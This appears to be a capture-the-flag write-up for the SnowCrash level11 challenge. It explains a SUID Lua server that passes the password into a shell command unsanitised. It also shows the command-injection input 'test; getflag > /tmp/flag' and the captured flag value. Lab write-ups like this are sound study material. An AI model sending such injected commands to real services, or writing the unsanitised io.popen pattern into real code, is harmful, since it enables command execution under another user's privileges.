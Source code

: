 1. **File search**

    By checking with the `strings` command and running the `level11.lua` binary, we can observe:
    - The executable binary is a Lua script called `level11.lua` and has SUID (setuid) permissions for the user `flag11`.
    - The script uses the Lua `socket` library to create a TCP server that listens on `127.0.0.1:5151`.
    - When a client connects, the server asks for a `"Password: "`.
    - The received password is passed to a system command:
    - `echo <password> | sha1sum`
    - The result (SHA1 hash) is compared to the fixed value:
    `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`
    - If the hash matches, it responds with `"Gz you dumb*\n"`, otherwise it responds with `"Erf nope..\n"`.
    ```bash
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: 42malaga
    Erf nope..
    ```
    The important part of the code:
    ```bash
    level11@SnowCrash:~$ cat level11.lua
    [...]
    prog = io.popen("echo "..pass.." | sha1sum", "r")
    [...]
    ```
    This is vulnerable to command injection.

    The key point is that the password variable (`pass`) is directly concatenated into the shell command:
    ```lua
    prog = io.popen("echo " .. pass .. " | sha1sum", "r")
    ```
    This means our input is evaluated by the shell. By injecting a special string, we can break out of the echo command and execute arbitrary commands as the `flag11` user (due to the SUID bit).

    For example, if we input:
    ```
    test; getflag
    ```
    The resulting command executed by the script will be:
    ```
    echo test; getflag | sha1sum
    ```
    This will print the output of `getflag` to the client connection, because `getflag` is executed as `flag11`.
    ```bash
    Password: test; getflag > /tmp/flag
    Erf nope..
    level11@SnowCrash:~$ cat /tmp/flag
    .*( )*.
    woupa2yuojeeaaed06riuj63c
    ```


